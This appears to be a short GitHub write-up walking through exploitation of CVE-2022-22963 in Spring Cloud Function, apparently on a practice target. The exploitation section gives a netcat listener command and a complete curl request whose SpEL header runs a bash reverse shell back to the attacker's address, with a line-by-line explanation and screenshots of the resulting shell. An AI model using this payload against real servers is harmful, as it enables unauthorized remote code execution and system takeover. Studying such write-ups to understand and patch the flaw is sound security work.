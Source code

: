 # Initial Access 101: Exploiting ****CVE-2022-22963**** Vulnerability

## Introduction

I was practicing and learning when I encountered a new vulnerability. I discovered a vulnerability called 'Local File Inclusion' (LFI) in a web application. During my exploration, I found a file named pom.xml, which I was unaware of, So after somre research i found out that it is an XML file that contains information about the project and configuration details used by Maven to build the project. 

Looking through the content of file and searching on google about the spring framework boot exploit, after researching i found a poc on github for **CVE-2022-22963.**

### **CVE-2022-22963:**

In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources.

References:

https://0x1.gitlab.io/exploit/SpringBoot-RCE/ 

https://github.com/me2nuk/CVE-2022-22963

https://nvd.nist.gov/vuln/detail/CVE-2022-22963

## Exploitation:

Starting the listener. 

```bash
nc -lvnp 443
```

Running the payload which will call back to my machine.

```bash
curl -X POST http://10.10.10.10:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(new String[]{"/bin/bash","-c","exec /bin/bash -i &>/dev/tcp/10.10.10.10/443 <&1"})' --data-raw 'data' -v
```
**Explaination**:

- The **`-H`** flag is used to specify a header for the request. In this case, it's setting the **`spring.cloud.function.routing-expression`** header to a specific value.

- The value of the header is a Spring Expression Language (SpEL) expression. It uses the **`T()`** notation to call a specific Java class and invoke a method. In this case, it's calling **`java.lang.Runtime.getRuntime().exec()`**.

- The **`exec()`** method is used to execute a command on the operating system. The command being executed is **`/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/10.10.10.10/443 <&1'`**. This command is attempting to establish a reverse shell connection

- The `--data-raw` flag specifies the raw data that will be included in the request body. In this case, it's set to 'data'.

- The -v flag is used to enable verbose mode, which provides more detailed output during the request.


![p](https://github.com/Strange-0/initialaccess101/assets/76517909/366c8103-c0f3-401b-ab34-2b67e8589aba)

Got Shell

![i](https://github.com/Strange-0/initialaccess101/assets/76517909/13752b75-9f82-4241-8839-e11099bea890)
